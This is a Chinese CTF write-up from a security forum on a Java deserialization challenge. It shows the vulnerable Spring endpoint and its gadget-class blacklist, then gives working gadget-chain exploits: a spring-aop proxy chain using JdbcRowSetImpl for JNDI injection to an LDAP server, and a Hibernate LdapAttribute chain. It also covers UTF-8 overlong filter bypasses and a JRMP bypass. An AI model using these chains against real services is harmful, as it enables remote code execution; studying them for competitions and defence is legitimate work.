



# 2025软件系统安全赛复赛Java-先知社区

> **来源**: https://xz.aliyun.com/news/18893  
> **文章ID**: 18893

---

版本为java11.  
  
`backdoor.java`

```
package com.example.ezjav.controller;


import com.example.ezjav.utils.MyObjectInputStream;
import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class backdoor {
    static String banner = "Welcome to java";

    @RequestMapping({"/"})
    public String index() throws Exception {
        return banner;
    }

    @RequestMapping({"/read"})
    public String read(@RequestBody String body) {
        if (body != null)
            try {
                byte[] data = Base64.getDecoder().decode(body);
                String temp = new String(data);
                if (temp.contains("naming") || temp.contains("com.sun") || temp.contains("jdk.jfr"))
                    return "banned";
                ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
                MyObjectInputStream objectInputStream = new MyObjectInputStream(byteArrayInputStream);
                Object object = objectInputStream.readObject();
                return object.getClass().toString();
            } catch (Exception e) {
                return e.toString();
            }
        return "ok";
    }
}
```

`PalDataSource.java`

```
package com.example.ezjav.utils;

import com.alibaba.druid.pool.DruidDataSource;
import java.sql.Connection;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class PalDataSource extends DruidDataSource {
    public Connection getConnection(String username, String password) throws SQLException {
        return super.getConnection(username, password);
    }

    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }
}
```

`User.java`

```
package com.example.ezjav.utils;

import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Comparator;

public class User implements Serializable, Comparator {
    public String username;

    public String password;

    public Object compare;

    public User(String user, String pass, String cmp) {
        this.username = user;
        this.password = pass;
        this.compare = cmp;
    }

    public int compare(Object o1, Object o2) {
        try {
            Method m = this.compare.getClass().getDeclaredMethod("compare", new Class[] { Object.class, Object.class });
            m.setAccessible(true);
            m.invoke(this.compare, new Object[] { o1, o2 });
        } catch (Exception e) {
            e.printStackTrace();
        }
        return 0;
    }
}
```

`MyObjectInputStream`

```
package com.example.ezjav.utils;

import java.io.BufferedReader;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;

public class MyObjectInputStream extends ObjectInputStream {
    private String[] denyClasses;

    public MyObjectInputStream(ByteArrayInputStream var1) throws IOException {
        super(var1);
        ArrayList<String> classList = new ArrayList<>();
        InputStream file = com.example.ezjav.utils.MyObjectInputStream.class.getResourceAsStream("blacklist.txt");
        BufferedReader var2 = new BufferedReader(new InputStreamReader(file));
        String var4;
        while ((var4 = var2.readLine()) != null)
            classList.add(var4.trim());
        this.denyClasses = new String[classList.size()];
        classList.toArray(this.denyClasses);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        int var5 = this.denyClasses.length;
        for (int var6 = 0; var6 < var5; var6++) {
            String denyClass = this.denyClasses[var6];
            if (className.startsWith(denyClass))
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
        }
        return super.resolveClass(desc);
    }
}
```

然后来看一下黑名单`blacklist.txt`

```
javax.management.BadAttributeValueExpException
com.sun.org.apache.xpath.internal.objects.XString
java.rmi.MarshalledObject
java.rmi.activation.ActivationID
javax.swing.event.EventListenerList
java.rmi.server.RemoteObject
javax.swing.AbstractAction
javax.swing.text.DefaultFormatter
java.beans.EventHandler
java.net.Inet4Address
java.net.Inet6Address
java.net.InetAddress
java.net.InetSocketAddress
java.net.Socket
java.net.URL
java.net.URLStreamHandler
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
java.rmi.registry.Registry
java.rmi.RemoteObjectInvocationHandler
java.rmi.server.ObjID
java.lang.System
javax.management.remote.JMXServiceUR
javax.management.remote.rmi.RMIConnector
java.rmi.server.RemoteObject
java.rmi.server.RemoteRef
javax.swing.UIDefaults$TextAndMnemonicHashMap
java.rmi.server.UnicastRemoteObject
java.util.Base64
java.util.Comparator
java.util.HashMap
java.util.logging.FileHandler
java.security.SignedObject
javax.swing.UIDefaults
```

那么在看到这几个类,不考虑黑名单和依赖的情况下,首先关注到的就是在`User`类下的`Compare`方法.

```
public int compare(Object o1, Object o2) {
        try {
            Method m = this.compare.getClass().getDeclaredMethod("compare", new Class[] { Object.class, Object.class });
            m.setAccessible(true);
            m.invoke(this.compare, new Object[] { o1, o2 });
        } catch (Exception e) {
            e.printStackTrace();
        }
        return 0;
    }
```

然而仔细看了一下发现了问题,User类中的compare方法要求是String类型,并不是真正的可控.  
然而这里给了我们启示,看到依赖中存在`spring-aop`和`aspectjweaver`,想到了新出的链子.对于直接解码进行的检测,可以直接使用`UTF8OverlongEncoding`去进行绕过.  
对于除了`equals,hashcode`这两种方法,其他的都能触发`getAProxy`,打完整个利用链.  
然而我们在尝试利用链的时候出现了报错:

```
Exception in thread "main" java.lang.IllegalArgumentException: Can not set final java.util.Comparator field java.util.PriorityQueue.comparator to com.sun.proxy.$Proxy1
    at java.base/jdk.internal.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:167)
    at java.base/jdk.internal.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:171)
    at java.base/jdk.internal.reflect.UnsafeQualifiedObjectFieldAccessorImpl.set(UnsafeQualifiedObjectFieldAccessorImpl.java:83)
    at java.base/java.lang.reflect.Field.set(Field.java:780)
    at ReflectUtil.setFieldValue(ReflectUtil.java:33)
    at ReflectUtil.setFieldValue(ReflectUtil.java:25)
    at Main.main(Main.java:26)
```

意思是不能将proxy1赋值给一个`Comparator`对象,那么我们就需要去给他套一个`Comparator`接口.  
TemplatesImpl被禁用了,这里我们选择`JdbcRowSetImpl`来打一个jndi注入.得到payload如下:

```
import com.sun.rowset.JdbcRowSetImpl;
import org.aopalliance.aop.Advice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;

import java.lang.reflect.*;
import java.util.*;


public class Main {
    public static void main(String[] args) throws Exception {

        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:50389/8cb29d");
        Method method=jdbcRowSet.getClass().getMethod("getDatabaseMetaData");
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(jdbcRowSet);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) ProxyUtil.getAProxy(advice,Advice.class);
        Proxy finalproxy=(Proxy) ProxyUtil.getBProxy(proxy1,new Class[]{Comparator.class});
        PriorityQueue PQ=new PriorityQueue(1);
        PQ.add(1);
        PQ.add(2);

        ReflectUtil.setFieldValue(PQ,"comparator",finalproxy);
        ReflectUtil.setFieldValue(PQ,"queue",new Object[]{proxy1,proxy1});
        System.out.println(SerializeUtil.serializeBypass(PQ));
    }
}
```

那么接下来就是注谁的问题,看了一下`Jackson`的版本,还是能打,可以考虑直接打Jackson链,本地成功的执行了命令.  
看到了一位师傅的blog:[软件系统安全赛](https://gsbp0.github.io/post/%E8%BD%AF%E4%BB%B6%E6%94%BB%E9%98%B2%E8%B5%9B%E7%8E%B0%E5%9C%BA%E8%B5%9B%E4%B8%8A%E5%AF%B9justdeserialize%E6%94%BB%E5%87%BB%E7%9A%84%E5%87%A0%E6%AC%A1%E5%B0%9D%E8%AF%95/),说是可以打一个druid+hsql二次反序列化.hsql有好多二次反序列化的打法,都是在jndi注入的时候打的,这里我没研究过,索性挨个试.  
直接使用java-chains去生成payload  
  
也是成功的执行命令了.

后记(来自上面师傅的博客):  


补档:学了Hibernate反序列化之后,发现这题也可以直接用Hibernate反序列化去打一个LdapAttribute注入,下面是构造的exp

```
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.property.access.spi.Getter;
import org.hibernate.property.access.spi.GetterMethodImpl;
import org.hibernate.tuple.component.AbstractComponentTuplizer;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.ComponentType;

import javax.naming.CompositeName;
import java.lang.reflect.Field;
import java.util.Hashtable;


public class Hibernate1 {

    /*
     * org.hibernate.property.access.spi.GetterMethodImpl.get()
     * org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()
     * org.hibernate.type.ComponentType.getPropertyValue(C)
     * org.hibernate.type.ComponentType.getHashCode()
     * org.hibernate.engine.spi.TypedValue$1.initialize()
     * org.hibernate.engine.spi.TypedValue$1.initialize()
     * org.hibernate.internal.util.ValueHolder.getValue()
     * org.hibernate.engine.spi.TypedValue.hashCode()
     */
    public static void main(String[] args) throws Exception{

        String ldapCtxUrl = "ldap://127.0.0.1:50389/";
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Class basicAttributeClazz = Class.forName("javax.naming.directory.BasicAttribute");
        Object ldapAttribute = ReflectUtil.newInstance(ldapAttributeClazz, basicAttributeClazz, new Class[]{String.class}, new Object[]{"name"});

        ReflectUtil.setFieldValue(ldapAttribute,"baseCtxURL",ldapCtxUrl);
        ReflectUtil.setFieldValue(ldapAttribute,"rdn",new CompositeName("55f375/"));

        ComponentType componentType = (ComponentType) ReflectUtil.newInstance(ComponentType.class,null,null);

        ReflectUtil.setFieldValue(componentType,"propertySpan",2);

        TypedValue typedValue = new TypedValue(componentType, ldapAttribute);

        PojoComponentTuplizer pojoComponentTuplizer = (PojoComponentTuplizer) ReflectUtil.newInstance(PojoComponentTuplizer.class,null,null);

        ReflectUtil.setFieldValue(AbstractComponentTuplizer.class,pojoComponentTuplizer,"getters",new Getter[]{new GetterMethodImpl(Object.class,"qwq", ldapAttributeClazz.getDeclaredMethod("getAttributeDefinition"))});
        ReflectUtil.setFieldValue(componentType,"componentTuplizer",pojoComponentTuplizer);

        Hashtable hashTable = new Hashtable();
        hashTable.put(1,1);

        Field tableField = Hashtable.class.getDeclaredField("table");
        tableField.setAccessible(true);
        Object[] table = (Object[]) tableField.get(hashTable);
        for (Object entry: table){
            if (entry != null){
                ReflectUtil.setFieldValue(entry,"key",typedValue);
            }
        }


        byte[] bytes = SerializeUtil.serializeBypass(hashTable);

//        SerializeUtil.deserialize(bytes);
    }

}
```

这里反射构造对象的时候需要手动指定`LdapAttribute`的父类为`BasicAttribute`.  
然而在实际打的时候发现了一个问题,`UTF8OverlongEncoding`bypass后还是带naming,这是由于进行Overlong Bypass使用的工具类只对`TC_CLASSDESC`进行了处理导致的.

```
StreamHeader
  -> magic number (0xAC ED)
  -> version (0x00 05)

Content (多个对象内容)
  -> TC_OBJECT
    -> classDesc
      -> TC_CLASSDESC
        -> className (UTF写入)
        -> serialVersionUID
        -> flags
        -> fieldDesc (字段信息)
        -> classAnnotations
        -> superClassDesc
    -> values

```

可以参考[这篇文章](https://whoopsunix.com/docs/PPPYSO/advance/UTFMIX/)去手动处理,但是懒了,留到下次组会(?

在n久之后的某一天,看到了xz上的一个[blog](https://xz.aliyun.com/news/17733),才知道之前为什么有人说远程打不通了.  
来分析一下JDK11下的`VersionHelper.java`

```
static {
        // System property to control whether classes may be loaded from an
        // arbitrary URL code base
        String trust = getPrivilegedProperty(
                "com.sun.jndi.ldap.object.trustURLCodebase", "false");
        trustURLCodebase = "true".equalsIgnoreCase(trust);

        // System property to control whether classes are allowed to be loaded from
        // 'javaSerializedData', 'javaRemoteLocation' or 'javaReferenceAddress' attributes.
        String trustSerialDataSp = getPrivilegedProperty(
                "com.sun.jndi.ldap.object.trustSerialData", "true");
        trustSerialData = "true".equalsIgnoreCase(trustSerialDataSp);
    }
```

在被加载的时候从`JVM Options`中读取了这两个参数,如果没设置的话,则默认是false和true.事实上,`trustURLCodebase`只有在JDK8的低版本才是true,而`trustSerialData`在JDK21以下都是true.  
因此需要使用JRMP去进行绕过,本地设置一个JRMPServer去发送Jackson的payload,然后访问`rmi://127.0.0.1:1098/<any>`即可.
